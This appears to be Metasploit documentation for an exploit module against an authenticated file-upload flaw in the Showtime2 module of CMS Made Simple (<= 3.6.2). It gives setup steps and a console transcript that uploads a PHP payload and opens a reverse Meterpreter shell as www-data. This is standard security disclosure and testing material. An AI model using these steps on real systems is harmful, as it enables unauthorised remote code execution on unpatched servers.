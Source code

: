 ## Description

This module exploits a File Upload vulnerability that lead in a RCE in the Showtime2 module (<= 3.6.2) in CMS Made Simple (CMSMS) throught users with the "Use Showtime2" privilege.

The vulnerability exists in the Showtime2 module, where the class "class.showtime2_image.php" does not ensure that a watermark file has a standard image file extension (GIF, JPG, JPEG, or PNG).

Tested on Showtime2 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2 on CMS Made Simple (CMSMS) 2.2.9.1 and 2.2.10

## Vulnerable Application

Affecting Showtime2 CMS Made Simple (CMSMS) module, version 3.6.2, 3.6.1, 3.6.0, 3.5.4, 3.5.3, 3.5.2, 3.5.1, 3.5.0, 3.4.5, 3.4.3, 3.4.2

## Verification Steps

1. Setting up a working installation of CMS Made Simple (CMSMS)
2. Download Showtime2 module (< 3.6.3)
3. Log-in to admin panel with the administrator credentials
4. Go in *site admin* => *Module Manager* and import the Showtime2 module
5. Once the module is uploaded, click on *install* to install the module
6. [OPTIONALLY] setting up a new user, assign it to a group and set the *Use Showtime2* permissions on group
7. Start `msfconsole`
8. `use exploit/multi/http/cmsms_showtime2_rce`
9. `set RHOST <IP>`
10. `set USERNAME <USERNAME>`
11. `set PASSWORD <PASSWORD>`
12. `check`
13. You should see `The target appears to be vulnerable.`
14. `exploit`
15. You should get a meterpreter session!

## Options

* **TARGETURI**: Path to CMS Made Simple (CMSMS) App installation (“/” is the default)
* **USERNAME**: Username to authenticate with
* **PASSWORD**: Password to authenticate with

## Scenario

### Tested on Showtime 3.6.2 on CMS Made Simple (CMMS) 2.2.10

```
msf5 > use exploit/multi/http/cmsms_showtime2_rce 
msf5 exploit(multi/http/cmsms_showtime2_rce) > set rhost target.com
rhost => target.com
msf5 exploit(multi/http/cmsms_showtime2_rce) > check

[*] Showtime2 version: 3.6.2
[*] 192.168.2.59:80 - The target appears to be vulnerable.
msf5 exploit(multi/http/cmsms_showtime2_rce) > set username Designer
username => Designer
msf5 exploit(multi/http/cmsms_showtime2_rce) > set password d3s1gn3r
password => d3s1gn3r
msf5 exploit(multi/http/cmsms_showtime2_rce) > exploit

[*] Started reverse TCP handler on 10.0.8.2:4444 
[*] Showtime2 version: 3.6.2
[*] Uploading PHP payload.
[*] Making request for '/06wp7Fen.php' to execute payload.
[*] Sending stage (38247 bytes) to 192.168.2.59
[*] Meterpreter session 1 opened (10.0.8.2:4444 -> 192.168.2.59:59932) at 2019-03-19 23:27:07 +0100
[!] Tried to delete ./06wp7Fen.php, unknown result

meterpreter > getuid
Server username: www-data (33)
meterpreter > quit
[*] Shutting down Meterpreter...

[*] 192.168.2.59 - Meterpreter session 1 closed.  Reason: User exit
msf5 exploit(multi/http/cmsms_showtime2_rce) > 
```